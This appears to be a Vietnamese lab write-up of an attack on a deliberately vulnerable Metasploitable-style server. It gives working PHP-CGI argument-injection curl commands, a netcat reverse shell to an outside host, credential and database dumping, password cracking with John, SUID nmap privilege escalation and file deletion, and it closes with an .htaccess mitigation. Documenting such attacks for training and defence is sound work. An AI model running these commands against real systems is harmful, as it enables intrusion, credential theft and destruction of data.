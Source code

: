 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

```
john --format=<format> hashes.txt
```

```
john --show hashes.txt
```

```
john --session=new_session --wordlist=/path/to/wordlist.txt hashes.txt
```

```
john --wordlist=rockyou.txt --format=nt hashes.txt
```



## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

| Thành phần    | Giải thích dễ hiểu                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `find`        | Lệnh dùng để **tìm kiếm file/thư mục**.                                                                                                                       |
| `/`           | Bắt đầu tìm từ **gốc hệ thống** (toàn bộ máy – từ `/` trở đi).                                                                                                |
| `-perm -4000` | Tìm file có quyền **SUID (Set User ID)** được bật.<br>📌 "4000" là mã quyền dạng **octal** đại diện cho SUID.<br>✅ `-4000` nghĩa là **phải có đúng bit SUID** |
| `-type f`     | Chỉ tìm **file thông thường** (không tìm thư mục, symlink, v.v).                                                                                              |
| `2>/dev/null` | **Ẩn lỗi** (ví dụ lỗi "Permission denied" khi không đọc được thư mục nào đó).                                                                                 |


```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```

> - Bạn là người thường (www-data), muốn vào phòng VIP.
> - Có một người khác được cấp quyền root tên là nmap(/usr/bin/nmap)
> - Khi bạn nhờ robot làm giúp ("--interactive")
> - Bạn bảo: “Mở cửa phòng VIP giúp tôi nhé!” (!sh)
> - Robot dùng quyền của nó để mở cửa, vậy là bạn vào được(chạy dưới quyền root)!

## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục

## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```

